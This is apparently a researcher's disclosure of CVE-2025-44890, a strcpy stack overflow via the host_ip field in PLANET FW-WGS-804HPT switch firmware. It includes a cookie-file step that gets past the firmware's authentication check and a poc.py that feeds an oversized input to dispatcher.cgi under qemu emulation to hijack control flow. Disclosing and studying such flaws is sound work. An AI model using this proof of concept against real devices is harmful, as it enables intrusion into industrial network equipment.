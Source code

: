 ```yaml
---
title: web_snmp_notifyv3_add_post_host_ip
date: 2025-04-20 17:11:29
tags: cve

---
```




**Affected Product**: FW-WGS-804HPT

**Affected Firmware Versions**:  v1.305b241111

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: CVE-2025-44890





# FW-WGS-804HPT_v1.305b241111 introduced

The WGS-804HPT-V2 is a ruggedized industrial-grade Ethernet switch designed for harsh environments and mission-critical applications. As part of PLANET Technology's Industrial Automation Series, this 8-port managed switch combines Power over Ethernet (PoE+) capabilities with industrial durability, making it ideal for building automation, smart infrastructure, and IoT deployments.



Official Product Page: https://www.planet.com.tw/en/product/wgs-804hpt-v2







# web_snmp_notifyv3_add_post_host_ip

I discovered a  stack overflow vulnerability in the Planet router.

By analyzing the dispatcher file in the bin directory, I found that the function web_snmp_notifyv3_add_post  contains a stack overflow vulnerability.

The stack overflow can be triggered by host_ip value, which leads to a strcpy stack overflow.

![image-20250321152223389](../res/202503211522484-17451404902459.png)

In the main function, there is an account authentication detection. We create a cookie_0 in the tmp directory, with the content of "20 0 0", and its function is to create a cookie with sufficient permissions to access this route.

```json
20 0 0
```



![image-20250417152740023](../res/image-20250417152740023-174487486104821.png)



![image-20250417152806480](res/image-20250417152806480-174487488758022.png)



Through IDA, it can be seen that the stack space is 0x308

﻿The content of the **poc**.py file is as follows:

```json
import os


a = 0x100F
var_name = "host_ip"
b = 'a' * 0x600
c = "isg_db_type=1111"

poc_content = f"&cmd={a}&{var_name}={b}&{c}"
with open('poc', 'w') as f:
    f.write(poc_content)

command = (
    "sudo chroot . ./qemu-mips-static "
    "-E REQUEST_METHOD=POST "
    "-E HTTP_COOKIE='hid=0' "
    "-L ./lib "
    "-g 1234 "
    "./dispatcher.cgi "
    "< poc"  
)


os.system(command)


```

# Attack result

![image-20250417153343940](../res/image-20250417153343940-174487522554423-17451483784616.png)

![image-20250417153323011](../res/image-20250417153323011-17451483757775.png)



Through the above image, we can see that we have overflowed to 0x264 and successfully hijacked the control flow. If necessary, more can be overflowed.d.
